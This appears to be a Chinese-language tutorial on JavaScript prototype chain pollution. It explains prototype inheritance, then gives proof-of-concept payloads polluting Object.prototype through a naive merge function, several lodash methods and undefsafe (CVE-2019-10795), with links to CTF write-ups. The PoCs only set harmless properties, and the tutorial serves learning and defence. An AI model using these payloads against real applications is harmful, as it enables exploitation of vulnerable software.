

# javascript原型链污染

## prototype、\_\_proto\_\_、constructor

### prototype

首先需要理解什么是原型

在javascript中，我们定义一个类，需要以定义“构造函数”的方式来定义：

```
function Foo() {
    this.bar = 1
}

new Foo()
```

Foo()函数的内容就是构造函数的内容，this.bar是Foo的一个属性

我们可以在构造函数里定义方法

```
function Foo() {
    this.bar = 1
    this.show = function() {
        console.log(this.bar)
    }
}
```

每创建一个对象，这个方法就会定义一次，这样就很浪费资源，我们要让它只定义一次，就需要用到原型`prototype`,这个`prototype`可以认为是一个类的属性，通过类创建的对象都将"继承"`prototype`的内容。

```
function Foo() {
    this.bar = 1
}

Foo.prototype.show = function show() {
    console.log(this.bar)
}

let foo = new Foo()
foo.show()
```

打印出了1，说明foo继承了prototype的内容

---

### \_\_proto\_\_

由类实例化的对象是无法使用prototype直接访问到类的原型，这时需要使用\_\_proto\_\_来访问类的原型

```
let foo = new Foo
// 二者相同
foo.__proto__ == Foo.prototype
# true
```

---

### constructor

创建一个类的含义就是创建了一个**构造器**函数，创建一个实例的含义就是在**继承**的基础上运行了这个构造器函数

为了确保继承过程顺利进行，这个构造器函数必须含有以下特征

- 包含`prototype`属性

而在 JavaScript 中，任意函数都默认具有`prototype`属性，因此，任意函数都符合一个构造器的标准，任意函数都是一个构造器，可用于生成类实例

一张图搞清楚这三者之间的转换逻辑以及关系



---

## JavaScript原型链继承

所有类对象在实例化的时候将会拥有`prototype`中的属性和方法，这个特性被用来实现JavaScript中的继承机制。

```
function Father() {
    this.first_name = 'Donald'
    this.last_name = 'Trump'
}

function Son() {
    this.first_name = 'Melania'
}

Son.prototype = new Father()

let son = new Son()
console.log(`Name: ${son.first_name} ${son.last_name}`)
```

Son类继承了Father类的`last_name`属性，最后输出的是`Name: Melania Trump`。

总结一下，对于对象son，在调用`son.last_name`的时候，实际上JavaScript引擎会进行如下操作：

1. 在对象son中寻找last_name
2. 如果找不到，则在`son.__proto__`中寻找last_name
3. 如果仍然找不到，则继续在`son.__proto__.__proto__`中寻找last_name
4. 依次寻找，直到找到`null`结束。比如，`Object.prototype`的`__proto__`就是`null`

---

## 原型链污染

### merge类操作原型链污染

当有我们可以控制的"键名"，并存在有赋值修改操作的地方，就可以使用原型链污染，最经典的就是merge函数

```
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

```

可以看到`target[key]  = source[key]`，这里就存在原型链污染，key如果是`__proto__`，就能修改到Object

```
let o1 = {}
let o2 = {a: 1, "__proto__": {b: 2}}
merge(o1, o2)
console.log(o1.a, o1.b)
# 1 2
o3 = {}
console.log(o3.b)
# undefined
```

里我们合并成功了，但是并没有污染到Object，这是因为，我们用JavaScript创建o2的过程（`let o2 = {a: 1, "__proto__": {b: 2}}`）中，`__proto__`已经代表o2的原型了，所以o2的原型从object.prototype变为了`{b:2}`，所以此时遍历o2的所有键名，你拿到的是`[a, b]`，`__proto__`并不是一个key，自然也不会修改Object的原型。

为了让`__proto__`也被当成键名，我们可以把o2的值设置成json的格式，遍历json的时候，`__proto__`就会被当成键名，从而改写Object

```
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)
# 1 2
o3 = {}
console.log(o3.b)
# 2
```

成功改写。

---

### Lodash模块原型链污染

lodash是一个包含简化字符串、数字、数组、函数和对象的js库

#### **lodash.defaultsDeep方法造成原型链污染**

lodash库中的`defaultsDeep`函数可能会被包含`constructor`的payload添加或修改`object.prototype`

漏洞验证POC

```
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"whoami": "Vulnerable"}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }
check();

```

#### **lodash.merge 方法造成的原型链污染**

odash.merge作为lodash中的对象合并插件，它可以递归合并`sources`来源对象自身和继承的可枚举属性到`object`目标对象，以此来创建父映射对象

```
merge(object, sources)
```

漏洞验证POC

```
var lodash= require('lodash');
var payload = '{"__proto__":{"whoami":"Vulnerable"}}';

var a = {};
console.log("Before whoami: " + a.whoami);
lodash.merge({}, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```

#### lodash.mergeWith 方法造成的原型链污染

lodash.mergeWith方法类似于merge方法，但它还会接受一个`customizer`，来决定如何合并，如果`customizer`返回`undefined`将会由合并处理方法代替。

```
mergeWith(object, sources, [customizer])
```

漏洞验证POC

```
var lodash= require('lodash');
var payload = '{"__proto__":{"whoami":"Vulnerable"}}';

var a = {};
console.log("Before whoami: " + a.whoami);
lodash.mergeWith({}, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```

#### lodash.set 方法造成的原型链污染

lodash.set 方法可以用来设置值到对象对应的属性路径上，如果没有则创建这部分路径。 缺少的索引属性会创建为数组，而缺少的属性会创建为对象

```
set(object, path, value)
```

漏洞验证POC

```
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
//lodash.set(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.set(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```

#### lodash.setWith 方法造成的原型链污染

lodash.setWith 方法类似 `set` 方法。但是它还会接受一个 `customizer`，用来调用并决定如何设置对象路径的值。 如果 `customizer` 返回 `undefined` 将会有它的处理方法代替。

```
setWith(object, path, value, [customizer])
```

漏洞验证POC

```
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
//lodash.setWith(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.setWith(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```

---

### Undefsafe模块原型链污染

Undefsafe 是 Nodejs 的一个第三方模块，其核心是一个简单的函数，用来处理访问对象属性不存在时的报错问题。但其在低版本（<  2.0.3版本）中存在原型链污染漏洞（CVE-2019-10795），攻击者可利用该漏洞添加或修改 Object.prototype 属性。

例子：

```
var a = require("undefsafe");
var test = {}
console.log('this is '+test)    // 将test对象与字符串'this is '进行拼接
// this is [object Object]
```

返回：[object Object]，并与this is进行拼接。但是当我们使用 undefsafe 的时候，可以对原型进行污染：

```
a(test,'__proto__.toString',function(){ return 'just a evil!'})
console.log('this is '+test)    // 将test对象与字符串'this is '进行拼接
// this is just a evil!
```

### 例题

#### 利用undefsafe模块进行原型链污染，然后利用源码中的exec函数达到任意命令执行

[网鼎杯2020青龙组-notes](https://mixbp.github.io/2025/05/30/%E7%BD%91%E9%BC%8E%E6%9D%AF2020%E9%9D%92%E9%BE%99%E7%BB%84-notes/)

#### 利用merge类进行原型链污染，污染后的属性会进行模版渲染然后进行SSTI

[GYCTF2020-Ez_Express](http://mixbp.github.io/2025/04/27/GYCTF2020-Ez-Express/)

---

完结撒花


